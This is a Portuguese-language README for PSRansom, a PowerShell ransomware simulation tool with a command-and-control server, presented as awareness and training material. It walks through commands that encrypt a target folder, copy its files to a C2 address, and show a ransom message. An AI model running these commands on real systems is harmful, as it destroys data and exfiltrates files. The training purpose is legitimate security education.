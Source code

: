 <div align="center">
  <img src="https://github.com/EfySecurity/Coding-Tool/blob/main/icons8-base-64.gif" alt="Project Logo">
</div>

## PSRansom - Simulação de Ransomware com C2

PSRansom ​​é um script escrito em PowerShell que permite simular o funcionamento de um Ransomware. É um script que você pode utilizar por exemplo em uma apresentação de conscientização sobre os riscos e o impacto que um ransomware pode causar.

🔴 O uso indevido desta técnica é de sua total responsabilidade e está sujeito as penalizações prevista na [Lei 12.737](https://www.planalto.gov.br/ccivil_03/_ato2011-2014/2012/lei/l12737.htm).

## Como Usar

01 - Realize o clone do projeto PSRansom

```bash
git clone https://github.com/JoelGMSec/PSRansom
```

02 - Entre no diretorio dos arquivos

```bash
cd PSRansom
```

03 - Use o comando para vizualizar todos arquivos contido no diretorio

```bash
ls -l
```

04 - Inicie o C2 Server através do comando a seguir:

```bash
pwsh C2Server.ps1 + 80
```

05 - No host Windows criei a pasta 100SECURITY com alguns arquivos como exemplo.

06 - Realize o download do PSRansom no Windows e execute o comando a seguir:

```bash
.\PSRansom.ps1 -e C:\100SECURITY -s 192.168.0.76 -p 80 -x
```

- C:\100SECURITY : Pasta Alvo
- 192.168.0.76 : Servidor C2
- 80 : Porta de conexão com o servidor C2
- -x : Realiza a cópia dos arquivos para o servidor C2

07 - No servidor C2 o atacante recebe a lista de arquivos que foram criptografados e a Chave de Recuperação.

```bash
Chave de Recuperação : WNLmTxjnDpzZGaEF4AsUYgi5
```

Arquivos `criptografados` com a extensão `.psr`

08 - Dentro da pasta C2Files o atacante recebe uma cópia de todos os arquivos antes da criptografia.

```bash
cd CS2Files
```

```bash
ls -l
```

07 - Observe que foi criado o arquivo readme.txt contendo a Chave de Recuperação dos arquivos.

```bash
Recovery Key : WNLmTxjnDpzZGaEF4AsUYgi5
```

08 - Para recuperar os arquivos basta digitar o comando a seguir :

```bash
.\PSRansom.ps1 -d C:\100SECURITY -K WNLmTxjnDpzZGaEF4AsUYgi5
```

Arquivos recuperados com sucesso!

🔴   Exibindo uma mensagem da Tela do Usuário
Para exibir a mensagem basta utilizar o parâmetro -demo :

```bash
.\PSRansom.ps1 -e C:\100SECURITY -s 192.168.0.76 -p 80 -x -demo
```

💀 Mensagem!

Se o usuário clicar em Pay Now! é exibido um pop-up na tela.

## 🔓 Observações
O impacto e o prejuízo financeiro que este tipo de ataque por causar nas empresa é muito grande, segue algumas recomendações :

Conscientize de forma constante os colaboradores da sua empresa, sobre os riscos de segurança
Realize exercícios e simulações de Phishing, Ransomware, Engenharia Social, etc.
Invista em soluções de segurança como EDRs, AVs, Firewall, WAF, etc.
Se possível monte um time interno de segurança em sua empresa para realizar simulações de ataques reais.
Contrate uma consultoria especializada para avaliar seu ambiente de forma independente e periódica.
Leve a segurança dos dados da sua empresa e de seus clientes a sério!


# Simulação de Ransomware com C2 - Projeto de Estudo

Este projeto é uma simulação de ransomware com um servidor de comando e controle (C2) e é destinado apenas para fins educacionais e de aprendizado. Ele não deve ser usado de forma maliciosa ou prejudicial.

## Fonte Original

Este projeto foi inspirado por um tutorial e código fonte fornecido por [JoelGMSec](https://github.com/JoelGMSec). Certifique-se de verificar o tutorial original para obter mais informações detalhadas.

## Sobre o Projeto

O objetivo deste projeto é permitir que os estudantes de segurança cibernética compreendam como um ransomware pode funcionar, bem como aprender a se defender contra esse tipo de ameaça. É importante lembrar que a criação e disseminação de malware são atividades ilegais e prejudiciais.

## Pré-requisitos

Certifique-se de ter o ambiente adequado configurado para executar este projeto de forma segura. Você deve estar ciente de que este projeto simula um ransomware, e executá-lo em um ambiente de produção resultará em perda de dados.

## Contribuição e Responsabilidade

Este projeto é apenas para fins educacionais e não deve ser usado para atividades maliciosas. Os contribuidores deste projeto não se responsabilizam pelo uso inadequado ou ilegal do código fornecido.

## Licença

Este projeto está sob a [Licença MIT](LICENSE).

---
**AVISO:** O uso deste projeto para fins maliciosos ou ilegais é estritamente proibido. Este projeto foi criado apenas para fins educacionais.




